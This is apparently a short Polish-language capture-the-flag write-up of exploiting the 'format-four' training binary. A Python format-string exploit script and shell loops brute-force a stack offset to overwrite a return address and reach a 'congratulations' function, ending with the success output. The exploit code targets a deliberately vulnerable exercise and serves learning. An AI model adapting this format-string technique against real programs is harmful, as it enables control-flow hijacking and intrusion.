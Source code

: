 Dobra, zrobiłem to w debugerze, czas to zrobić 'na sucho'
Nie działa, tak jak myślałem - stos się trochę przesunął przez debuggera

```python
#!/usr/bin/python

import sys
import struct

ptr = 0x7fffffffe618
advance = int(sys.argv[1], 10)
ret = struct.pack("Q", ptr + advance)

# 0000000000400674 <congratulations>:
congrats = 0x400674

payload = ""
payload += "%X " * 8
payload += "%p" # here lies ret ptr

payload += "%X " * 9
payload += "%" + str(congrats - len(payload) - 79) + "d"
payload += "%p"

#ret = "\x68\xe6\xff\xff\xff\x7f\x00\x00" # addr of ret addr
# 0x7ffff7ffdc0c 0x7ffff7ffb300 0x7ffff7dc2617 0 0 0 0x7fffffffd690 0x7fffffffe690 0x4006e5

#ret = "\x18\xd6\xff\xff\xff\x7f\x00\x00" # addr of ret addr in gdb
# 0x7ffff7ffdc0c 0x7ffff7ffb300 0x7ffff7dc2617 0 0 0 0x7fffffffd650 0x7fffffffe650 0x4006e5

print(payload + ret)
```
```
svu@unassigned:~$ for i in {0..40}; do ./format4/script.py `expr ${i} \* 8` | ./amd64/format-four | grep Well; done
svu@unassigned:~$ for i in {0..40}; do ./format4/script.py -`expr ${i} \* 8` | ./amd64/format-four | grep Well; done 
```

~~Nic nie działa... :(~~
Nie wiem czemu, ale return pointer był po prostu -4032 bajtów dalej 
(pewnie zamiast D680 przeczytałem E680)

```
44441X����Well done, you're redirected code execution!
```

Zostałem przekierowaną egzekucją kodu! :D
